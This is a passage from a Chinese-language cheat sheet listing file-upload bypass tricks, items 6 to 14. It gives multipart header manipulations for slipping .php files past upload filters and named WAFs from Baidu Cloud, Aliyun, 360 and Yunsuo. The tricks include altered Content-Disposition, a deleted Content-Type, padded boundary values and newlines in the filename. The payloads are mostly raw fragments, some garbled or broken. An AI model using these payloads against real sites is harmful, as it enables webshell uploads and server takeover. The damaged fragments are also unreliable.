 ```
`<form action="https://www.xxx.com/xxx.asp(php)" method="post"``multipart/form‐data">``<input >``<input >``<input type="submit" >``</form>`
```

  

6.HTTP header 属性值绕过

```
`Content-Disposition: form-data;` `//通过替换form-data 为*来绕过``Content-Disposition: *;` 
```

  

7.HTTP header 属性名称绕过

```
`源代码:``Content-Disposition: form-data; Content-Type: image/png``绕过内容如下：``Content-Disposition: form-data; 085733uykwusqcs8vw8wky.png``C.php"``删除掉ontent-Type: image/jpeg只留下c，将.php加c后面即可，但是要注意额，双引号要跟着c.php".`
```

  

8.等效替换绕过

```
`原内容：``Content-Type: multipart/form-data; boundary=---------------------------471463142114``修改后:``Content-Type: multipart/form-data; boundary =---------------------------471463142114``boundary后面加入空格。`
```

  

9.修改编码绕过

```
使用UTF-16、Unicode、双URL编码等等
```

  

10.百度云上传绕过  

```
`Content-Disposition: form-data;` `或者：``filename='1.php(回车)'`
```

11.阿里云上传绕过

```
`源代码：``Content-Disposition: form-data; Content-Type: image/jpeg``修改如下：``Content-Disposition: form-data;` `将=号这里回车删除掉Content-Type: image/jpeg即可绕过。`
```

12.360主机上传绕过

```
`源代码:``Content-Disposition: form-data; Content-Type: image/png``绕过内容如下：``Content- Disposition: form-data; 085733uykwusqcs8vw8wky.png``Content-Disposition 修改为 Content-空格Disposition`
```

  

13.===绕过

```
Content- Disposition: form-data; 
```

  

14.云锁上传绕过

```
`Content- Disposition: form-data; 123.``11.php"`
```

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)